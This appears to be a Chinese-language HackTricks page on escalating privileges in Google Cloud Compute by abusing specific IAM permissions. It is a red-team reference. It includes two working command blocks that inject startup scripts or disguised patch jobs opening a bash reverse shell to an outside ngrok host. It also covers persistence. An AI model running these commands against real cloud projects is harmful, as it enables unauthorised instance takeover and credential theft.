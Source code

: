 # GCP - Compute Privesc

{% hint style="success" %}
学习和练习 AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}

## Compute

有关 GCP 中 Compute 和 VPC（网络）的更多信息，请查看：

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
请注意，要执行所有需要修改实例元数据的权限提升攻击（如添加新用户和 SSH 密钥），**即使 SA 已经附加，也需要对附加到实例的 SA 具有 `actAs` 权限**！
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

拥有该权限，您可以**修改**实例的**元数据**信息，改变用户的**授权密钥**，或**创建**具有 sudo 权限的新用户。因此，您将能够通过 SSH 进入任何 VM 实例并窃取实例运行的 GCP Service Account。\
限制：

* 请注意，默认情况下，运行在 VM 实例中的 GCP Service Accounts 具有**非常有限的范围**
* 您需要**能够联系 SSH** 服务器以登录

有关如何利用此权限的更多信息，请查看：

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

您还可以通过添加新的启动脚本并重新启动实例来执行此攻击：
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

此权限赋予**与前一个权限相同的特权**，但仅限于特定实例而不是整个项目。**与前一节相同的漏洞和限制适用**。

### `compute.instances.setIamPolicy`

这种权限将允许你**授予自己具有前述权限的角色**，并通过滥用这些权限来提升特权。

### **`compute.instances.osLogin`**

如果**实例中启用了OSLogin**，有了此权限，你可以直接运行**`gcloud compute ssh [INSTANCE]`**并连接到实例。你在实例内部**不会拥有root权限**。

{% hint style="success" %}
为了成功使用此权限登录到VM实例，你需要对附加到VM的SA拥有`iam.serviceAccounts.actAs`权限。
{% endhint %}

### **`compute.instances.osAdminLogin`**

如果**实例中启用了OSLogin**，有了此权限，你可以直接运行**`gcloud compute ssh [INSTANCE]`**并连接到实例。你将在实例内部拥有**root权限**。

{% hint style="success" %}
为了成功使用此权限登录到VM实例，你需要对附加到VM的SA拥有`iam.serviceAccounts.actAs`权限。
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

可以**创建一个分配了Service Account的虚拟机并窃取访问元数据的服务账户令牌**，以此提升特权。

此方法的漏洞脚本可以在[这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)找到。

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

如果你拥有**`osconfig.patchDeployments.create`**或**`osconfig.patchJobs.exec`**权限，你可以创建一个[**补丁作业或部署**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)。这将使你能够在环境中横向移动，并在项目内的所有计算实例上获得代码执行权限。

请注意，目前你**不需要对附加到实例的SA拥有`astAs`权限**。

如果你想手动利用此漏洞，你需要创建一个[**补丁作业**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **或** [**部署**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**。**\
对于补丁作业，运行：

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

部署补丁部署：
```bash
gcloud compute os-config patch-deployments create <name> ...
```
工具 [patchy](https://github.com/rek7/patchy) 过去可以用来利用这种错误配置（但现在已经不起作用了）。

**攻击者也可以利用这一点来保持持久性。**

### `compute.machineImages.setIamPolicy`

**授予自己额外权限**到 compute Image。

### `compute.snapshots.setIamPolicy`

**授予自己额外权限**到磁盘快照。

### `compute.disks.setIamPolicy`

**授予自己额外权限**到磁盘。

### 绕过访问范围

点击此链接可以找到一些[**尝试绕过访问范围的想法**](../)。

### GCP Compute 实例中的本地权限提升

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 参考资料

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
学习和练习 AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* **通过提交 PRs 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}
